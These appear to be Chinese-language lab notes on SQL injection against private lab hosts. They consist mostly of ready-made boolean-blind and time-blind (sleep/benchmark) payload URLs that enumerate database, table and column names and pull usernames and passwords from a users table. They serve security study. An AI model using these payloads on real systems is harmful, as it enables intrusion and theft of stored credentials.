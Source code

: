 http://192.168.100.x:21727/get.php?id=1' and length((select group_concat(schema_name) from information_schema.schemata))=8%23

http://192.168.100.x:21727/get.php?id=1' and mid((select group_concat(schema_name) from information_schema.schemata),1,1)='s'%23

http://192.168.100.x:21727/get.php?id=1' and mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)='s'%23

http://192.168.100.x:21727/get.php?id=1' and mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1)='s'%23

http://192.168.100.x:21727/get.php?id=1' and mid((select group_concat(username,password) from users),1,1)='s'%23

## 时间盲注

sleep(5) ==> 指定数据库休眠时间

select sleep(5)  ==> 数据库执行结果休眠5s后返回

benchmark(5000000,md5('admin')) ==> 测试函数运行速度，利用md5('admin')进行5000000运算。

#### 判断是否可用休眠函数

http://192.168.100.40:59110/time.php?id=1" and sleep(5)%23  

![image](assets/image-20240820233831-f5cmdjc.png " 延时5s可以使用")

#### 查询数据库名长度

http://192.168.100.40:59110/time.php?id=1" and if(length(database())=7,sleep(5),1)%23

![image](assets/image-20240820233536-atqazde.png "从1-7长度不对，不休眠")

http://192.168.100.40:59110/time.php?id=1" and if(length(database())=8,sleep(5),1)%23  

![image](assets/image-20240820233831-f5cmdjc.png "长度为8时休眠，说明有8个字符")

#### 代理抓包

http://192.168.100.40:59110/time.php?id=1’ and if(mid(database(),1,1)='s',sleep(5),1)%23
